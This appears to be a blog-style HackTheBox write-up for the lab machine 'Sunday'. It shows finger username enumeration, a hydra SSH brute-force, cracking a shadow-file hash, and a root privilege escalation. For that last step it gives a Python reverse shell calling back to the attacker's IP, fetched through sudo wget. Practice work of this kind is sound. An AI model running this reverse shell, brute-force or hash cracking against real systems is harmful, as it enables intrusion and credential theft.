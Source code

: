 ```yaml
---
title: "HackTheBox Write-Up:  Sunday"
date: 2022-09-27T05:15:03Z
draft: false

---
```



> # HackTheBox Write-Up:  Sunday
>
> ![Figure 1 PNG](https://miro.medium.com/max/1400/1*itSt35O3bwfON5arMvzFmA.png)
>
> Sunday is no day off, it's a great machine to practice common Linux privilege escalation methods through proper enumeration & vulnerability chaining.
>
> ```bash
> nmap -Pn -sS -p- 10.10.10.76
> > [OMITTED FOR BREVITY] 
> > ------------------------
> > PORT      STATE SERVICE
> > ------------------------
> > 79/tcp    open  finger  
> > 111/tcp   open  rpcbind  
> > 22022/tcp open  unknown  
> > 34550/tcp open  unknown  
> > 55407/tcp open  unknown
> > Nmap done: 1 IP address (1 host up) scanned in 2262.52 seconds
> ```
>
> There are five ports open, only one I am familiar with.
>
> ```bash
> nmap -A -p79,111,22022,34550,55407 10.10.10.76
> > Host is up (0.025s latency).
> > PORT      STATE SERVICE VERSION  
> > 79/tcp    open  finger  Sun Solaris fingerd 
> > |\_finger: No one logged on\\x0D  
> > 111/tcp   open  rpcbind 2-4 (RPC #100000)  
> > 22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)**  
> > | ssh-hostkey:   
> > |   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
> > |\_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
> > 34550/tcp open  unknown
> > 55407/tcp open  unknown**  
> > [OMITTED FOR BREVITY] 
> > Nmap done: 1 IP address (1 host up) scanned in 62.51 seconds
> ```
>
> A few Google searches finds me a vulnerability involving the Solaris implementation of `fingerd` allowing username enumeration.
>
> ![Figure 2 PNG](https://miro.medium.com/max/1400/1*sqMZaDqu2y-lmsvQjH4dvg.png)[https://www.rapid7.com/db/vulnerabilities/finger-solaris-user-enumeration]
>
> Some more searching leads me to a Perl script we can use to enumerate usernames. We'll download it using wget.
>
> ```bash
> wget https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl
> ```
>
> ![](https://miro.medium.com/max/1400/1*hEoObsS7-7XbUjCqzxIJGw.png)
>
> ```bash
> # Usage: finger-user-enum.pl [options]
> #        ( -u username | -U file-of-usernames )
> #        ( -t host | -T file-of-targets )
> # Example:
> #        finger-user-enum.pl -U users.txt -t 10.0.0.1  
> finger-user-enum.pl -u root -t 10.0.0.1  
> finger-user-enum.pl -U users.txt -T ips.txt
> ```
>
> A quick `locate username` on my Kali machine pulls all the files containing the word username.
>
> ```bash
> locate username
> ```
>
> `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt` sounds good to me with an advertised 10 million usernames!
>
> ![](https://miro.medium.com/max/1400/1*YI_7axYe7GBrCuwpoNXmNA.png)
> ![](https://miro.medium.com/max/1400/1*6Bd5LhU9s2Vp0iRo22hGjA.png)
> Quick preview
>
> Using this file, our syntax in our working directory will be:
>
> ```bash
> perl finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.76 > userenum.txt
> ```
>
> The scripts output will append the results to a file named userenum.txt. (You do not have to do this, I just donâ€™t like to lose my results.)
>
> ![](https://miro.medium.com/max/1400/1*RF8e7LhDPeXw4YiD9kX80A.png)
>
> The output is a bit messy, but we have a few usernames to attempt a brute-force attack against port \[**22022/tcp open ssh SunSSH 1.3 (protocol 2.0)\]**
>
> The following usernames are the most interesting:
>
> ```bash
> sammy@10.10.10.76: sammy console <Jul 31 17:59>  
> sunny@10.10.10.76: sunny pts/3 <Apr 24, 2018>
> ```
>
> Use the following syntax to brute-force:
>
> ```bash
> hydra -V -f -t 4 -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022
> ```
>
> ![](https://miro.medium.com/max/1400/1*IVLkF60wYFaS2MiBDQwKSg.png)
>
> We obtain the credentials for Sunny!
> `sunny:sunday`
>
> ```bash
> ssh -p 22022 sunny@10.10.10.76
> ```
>
> ![](https://miro.medium.com/max/1400/1*YYgqDCCDPJgJbTlYHgNRZA.png)
>
> Habitually on Linux systems itâ€™s always a good idea to check if a low-privileged user has any sudo permissions.
>
> ```bash
> sudo -l
> ```
>
> We find that we can run the command /root/troll as root without a password.
>
> ![](https://miro.medium.com/max/1400/1*-2T8yLglR_FzVT7p2iBe_g.png)
>
> While traversing and enumerating the files on the machine, I found a copy of the shadow file containing hashed user passwords.
>
> ![](https://miro.medium.com/max/1400/1*f-FCv0hB0-jGhAX8lAZqaw.png)
>
> ```bash
> cat /backup/shadow.backup
> ```
>
> > If we are able to crack Sammy's password hash, we'll be able to grab the `user.txt` flag.
>
> ```bash
> echo "sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::" > hash.txt
> ```
>
> Copy the hash to a file, I named mine `hash.txt`. We'll use `john` to crack the hash.
>
> ```bash
> john -w="/usr/share/wordlists/rockyou hash.txt
> ```
>
> ![](https://miro.medium.com/max/1400/1*iDda9isUCBTW0boxxePOQA.png)
>
> Success.
>
> `Sammy:cooldude!`
>
> Let's grab the `user.txt` found on the desktop, and enumerate the system using Sammy's credentials.
>
> ```bash
> ssh -p 22022 sammy@10.10.10.76
> ```
>
> ![](https://miro.medium.com/max/1400/1*7ZK3ZmjNVjPW4MUt09NH1Q.png)
>
> Habitually, we type sudo -l.
>
> ```bash
> sudo -l
> ```
>
> ![](https://miro.medium.com/max/1400/1*QcCX9NKNdrBdautztxNtHQ.png)
>
> Looks like Sammy can run wget as root without a password. With this, we can overwrite `/root/troll` with a reverse-shell and then run it as root with Sunny's user account.
>
> Copy and paste this Python reverse-shell to a file named `reverse.py` on the target machine.
>
> ```python
> #!/usr/bin/python
> import socket  
> import subprocess  
> import os
> 
> s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
> s.connect(("10.10.14.15",443))  
> os.dup2(s.fileno(),0)  
> os.dup2(s.fileno(),1)  
> os.dup2(s.fileno(),2)  
> p = subprocess.call(["/bin/sh","-i"])
> ```
>
> Host this file with an HTTP server using Python, but before you do â€” ensure to edit the parameters to your local IP/port to receive the shell (I like to use port 443.)
>
> > NOTE:  Later on I ran into trouble because my IP was wrong (see: 10.10.14.5 vs 10.10.14.15)
>
> ![](https://miro.medium.com/max/1400/1*Pn2GutPyPn-ZagP9adm00w.png)
>
> ```bash
> sudo python3 -m http.server 80
> ```
>
> Setup a listener on the designated port.
>
> ```bash
> nc -nlvp 443
> ```
>
> ![](https://miro.medium.com/max/1400/1*SAfBMYPVhdKGWeZBWrItjQ.png)
>
> On the victim machine: we're going to download the reverse shell to replace /root/troll (Sammy), and then run the reverse shell as root (Sunny). Hopefully sending a privileged reverse shell back to us.
>
> ```bash
> sudo wget -O /root/troll http://10.10.14.15/reverse.py
> ```
>
> ![](https://miro.medium.com/max/1400/1*FoXOfkQUZdnfSzAeJXe7Vg.png)
>
> ```bash
> sudo /root/troll
> ```
>
> ![](https://miro.medium.com/max/1400/1*4-vlM2cx8LbdzGwP5KMkOA.png)
>
> > Note: The file resets itself every 5 seconds, so you're going to have to work fast. ( I also had a typo in my IP address, so this could be why I had so many failures)
>
> ![](https://miro.medium.com/max/1400/1*c0YHCrXNSdhWj_SWiNSA-w.png)
>
> You will notice the port I am listening on had changed from 443 to 1234. I thought there was a firewall blocking port 443 but as I said above, I discovered a typo in my receiving IP address within the reverse-shell.
>
> ![](https://miro.medium.com/max/1400/1*LF9GEfw_dyRmE58N6B7tzA.png)
>
> > Quick ending note: If port 443 is not working properly (All ports under 1000? can only be modified by `root`) either choose a higher port or re-run the command as root [ i.e. `sudo`]Note: The file resets itself every 5 seconds, so you’re going to have to work fast. ( I also had a typo in my IP address, so this could be why I had so many failures)
> >
> > ![](https://miro.medium.com/max/1400/1*c0YHCrXNSdhWj_SWiNSA-w.png)
> >
> > You will notice the port I am listening on had changed from 443 to 1234. I thought there was a firewall blocking port 443… but as I said above, I discovered a typo in my receiving IP address within the reverse-shell.
> >
> > ![](https://miro.medium.com/max/1400/1*LF9GEfw_dyRmE58N6B7tzA.png)
